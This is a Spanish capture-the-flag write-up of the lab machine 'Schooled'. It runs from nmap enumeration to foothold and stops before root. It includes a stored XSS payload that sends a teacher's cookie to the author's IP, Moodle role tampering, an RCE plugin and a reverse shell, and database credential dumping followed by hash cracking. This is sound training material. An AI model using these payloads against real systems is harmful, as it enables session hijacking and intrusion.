



# Schooled

## **Incompleto, no pude obtener root.**

.png>)

## Enumeración.

Lo primero que hago es realizar un escaneo con nmap para saber los puertos abiertos en el rango del 1-65536.

```
# Nmap 7.91 scan initiated Sun Apr 11 17:51:41 2021 as: nmap -p- --open -T5 -v -n -oG allPorts 10.10.10.234
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.234 () Status: Up
Host: 10.10.10.234 () Ports: 22/open/tcp//ssh///, 80/open/tcp//http///, 33060/open/tcp//mysqlx///
# Nmap done at Sun Apr 11 17:53:11 2021 -- 1 IP address (1 host up) scanned in 89.31 seconds=
```

| Bandera      | Descripción                                                                  |
| ------------ | ---------------------------------------------------------------------------- |
| -p-          | Escaneo a los 65536 puertos                                                  |
| --open       | Reporta solo los puertos con estado "open".                                  |
| -T5          | Exploracion a velocidades insanas (lo hago porque es un entorno de pruebas). |
| -v           | Muestra más información sobre el sondeo que se está realizando.              |
| -oG allPorts | Exporta los resultados en un formato Grepable con el nombre de allPorts.     |

Posteriormente verificamos las versiones de los servicios y haremos uso de scripts por default.

```
# Nmap 7.91 scan initiated Sun Apr 11 17:54:27 2021 as: nmap -sCV -p22,80,33060 -oN targeted 10.10.10.234
Nmap scan report for 10.10.10.234
Host is up (0.055s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.9 (FreeBSD 20200214; protocol 2.0)
| ssh-hostkey:
| 2048 1d:69:83:78:fc:91:f8:19:c8:75:a7:1e:76:45:05:dc (RSA)
| 256 e9:b2:d2:23:9d:cf:0e:63:e0:6d:b9:b1:a6:86:93:38 (ECDSA)
|_ 256 7f:51:88:f7:3c:dd:77:5e:ba:25:4d:4c:09:25:ea:1f (ED25519)
80/tcp open http Apache httpd 2.4.46 ((FreeBSD) PHP/7.4.15)
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (FreeBSD) PHP/7.4.15
|_http-title: Schooled - A new kind of educational institute
33060/tcp open mysqlx?
| fingerprint-strings:
| DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp:
| Invalid message"
| HY000
| LDAPBindReq:
| *Parse error unserializing protobuf message"
| HY000
| oracle-tns:
| Invalid message-frame."
|_ HY000
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.91%I=7%D=4/11%Time=60737E2A%P=x86_64-pc-linux-gnu%r(N
SF:ULL,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GenericLines,9,"\x05\0\0\0\x0b\
SF:x08\x05\x1a\0")%r(GetRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(HTTPOp
SF:tions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(RTSPRequest,9,"\x05\0\0\0\x0b
SF:\x08\x05\x1a\0")%r(RPCCheck,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSVers
SF:ionBindReqTCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSStatusRequestTCP,2
SF:B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fI
SF:nvalid\x20message\"\x05HY000")%r(Help,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")
SF:%r(SSLSessionReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01
SF:\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(TerminalServerCookie
SF:,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TLSSessionReq,2B,"\x05\0\0\0\x0b\x
SF:08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"
SF:\x05HY000")%r(Kerberos,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SMBProgNeg,9
SF:,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(X11Probe,2B,"\x05\0\0\0\x0b\x08\x05\
SF:x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY0
SF:00")%r(FourOhFourRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LPDString,
SF:9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LDAPSearchReq,2B,"\x05\0\0\0\x0b\x0
SF:8\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\
SF:x05HY000")%r(LDAPBindReq,46,"\x05\0\0\0\x0b\x08\x05\x1a\x009\0\0\0\x01\
SF:x08\x01\x10\x88'\x1a\*Parse\x20error\x20unserializing\x20protobuf\x20me
SF:ssage\"\x05HY000")%r(SIPOptions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LAN
SF:Desk-RC,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TerminalServer,9,"\x05\0\0\
SF:0\x0b\x08\x05\x1a\0")%r(NCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NotesRP
SF:C,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x
SF:0fInvalid\x20message\"\x05HY000")%r(JavaRMI,9,"\x05\0\0\0\x0b\x08\x05\x
SF:1a\0")%r(WMSRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(oracle-tns,32,"
SF:\x05\0\0\0\x0b\x08\x05\x1a\0%\0\0\0\x01\x08\x01\x10\x88'\x1a\x16Invalid
SF:\x20message-frame\.\"\x05HY000")%r(ms-sql-s,9,"\x05\0\0\0\x0b\x08\x05\x
SF:1a\0")%r(afp,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10
SF:\x88'\x1a\x0fInvalid\x20message\"\x05HY000");
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr 11 17:54:46 2021 -- 1 IP address (1 host up) scanned in 18.54 seconds
```

| Bandera       | Descripción                                                             |
| ------------- | ----------------------------------------------------------------------- |
| -p21,22,33060 | Escaneo a los puertos 21, 22 y 33060.                                   |
| -sC           | Escanea con los scripts por defecto.                                    |
| -sV           | Intenta determinar la versión del servicio que se ejecuta en el puerto. |
| -oN           | Exporta los resultados en un formato nmap.                              |

Añadiendo a vhost a /etc/hosts

```
echo -e "10.10.10.234 schooled.htb" >> /etc/hosts
```

Fuzzing vhost en schooled.htb

```
gobuster vhost -u http://schooled.htb -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -t 30
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://schooled.htb
[+] Method: GET
[+] Threads: 30
[+] Wordlist: /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent: gobuster/3.1.0
[+] Timeout: 10s
===============================================================
2021/04/11 18:15:27 Starting gobuster in VHOST enumeration mode
===============================================================
Found: moodle.schooled.htb (Status: 200) [Size: 84]
```

Añadiendo a vhost a /etc/hosts

```
echo -e "10.10.10.234 moodle.schooled.htb" >> /etc/hosts
```

Nos registramos en la web moodle.

```
gazette
$Qwerty1$
```

.png>)

Nos inscribimos en los cursos y observamos que podemos hacer en la web.

.png>)

Dentro del portal podemos ver este anuncio, donde el maestro indica que verificara nuestro perfil para verificar que hayamos establecido el MoodleNet.

.png>)

Para encontrar el apartado que mencionan, es en Profile.

.png>)

El campo mencionado es el siguiente.

.png>)

Probamos un XSS para verificar si es vulnerable, el campo.

```
<script>alert('XSS')</script>
```

.png>)

Podemos ver que cada vez que veamos el perfil obtenemos la respuesta inyectada. El mensaje anteriormente leído nos dice que visitaran nuestro perfil para saber si colocamos lo que se pidió, por lo que podriamos robar su cookie.

.png>)

XSS entre etiquetas HTML

```

```



Con base en esto, podemos robar la cookie del maestro, ya que sabemos que va a estar comprobando la información pedida en el perfil. Para eso debemos de abrir un servidor HTTP con Python para enviarnos la información.



El payload que elabore fue el siguiente:

El primer paylaod que me funciono fue este, pero después de volverlo a realizar, realmente no supe por qué no volvió a servir.

```
<script>src="http://10.10.14.133/?"+document.cookie;</script>
```

Así que elabore un segundo payload.

```

```

Vemos que en el servidor HTTP, tenemos la cookie de una dirección X.

Primer payload.

.png>)

Segundo payload.

.png>)

## Punto de acceso.

Cambiamos la cookie por la nueva.

.png>)

Ahora somos el usuario Manuel Philips

.png>)

Vemos que hay un apartado para subir archivos. Pero no sirve de nada, buscando más a en internet vemos que sobre alguna vulnerabilidad pública, vemos que existe una vulnerabilidad asociada al servicio y contamos con las condiciones para ejecutarla.



Primero debemos de identificar al usuario manager.

.png>)

Inscribimos el usuario manager al curso, mientras capturamos la petición

.png>)

La enviamos al Repeater, donde modificaremos el rol y el usuario.

.png>)

Petición sin editar.

.png>)

Ahora debemos de modificar los parámetros, con él, id nuestro y el rol 1, el cual es el de privilegios de administrador.

.png>)

Buscamos el perfil y lo visitamos.

.png>)

Damos clic en Log

.png>)

Se nos ha habilitado el panel de administración.

.png>)

Ahora debemos modificar los roles, nos vamos a Users>Define roles>Manager>Edit y debera aparecer algo asi:



Interceptamos una petición para cambiar los permisos (damos clic en gardar).

.png>)

Modificamos el contenido por el contenido proporcionado en el Git y enviamos la petición, ahora en el panel tendremos más opciones.

.png>)

Descargamos el RCE e instalamos.



.png>)

Instalación exitosa.

.png>)

http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php

.png>)

No me fue posible establecer una reverse shell, ya que el archivo se borraba cada cierto tiempo, por lo que decidí cambiar el archivo block_rce.php con la reverse shell de pentestmonkey.

.png>)

Este proceso no es necesario hacerlo se puede hacer de esta otra forma:



### Movimiento lateral.

### Usuario jaime

Buscando en el directorio principal de apache en /usr/local/www/, en el directorio /usr/local/www/apache24/data/moodle, se encuentra él archivó de configuración, el cual contiene el usuario de la base de datos y la contraseña.

.png>)

No podemos ejecutar el binario de forma relativa, por lo que vamos a optar por la forma absoluta, que se encuentra en /usr/local/bin/mysql.

.png>)

Extrayendo bases de datos

```
/usr/local/bin/mysql --user=moodle --password=PlaybookMaster2020 --execute='show databases;'
```

Extrayendo tablas

```
/usr/local/bin/mysql --user=moodle --password=PlaybookMaster2020 --database=moodle --execute='show tables;'
```

Extrayendo campos

```
/usr/local/bin/mysql --user=moodle --password=PlaybookMaster2020 --database=moodle --execute='select * from mdl_user;'
```

.png>)

Viendo los campos, nos interesan solo las columnas de usuario y contraseña.

```
/usr/local/bin/mysql --user=moodle --password=PlaybookMaster2020 --database=moodle --execute='select username,password from mdl_user;'
```

.png>)

Guardamos el hash de admin y lo crackear con john.


Existen dos posibles usuarios que pueden ser propietarios de la contraseña.

!QAZ2wsx


La contraseña pertenece al usuario jamie y se puede acceder por ssh.



## Escalpación de privilegios.


No pues quien sabe... XD
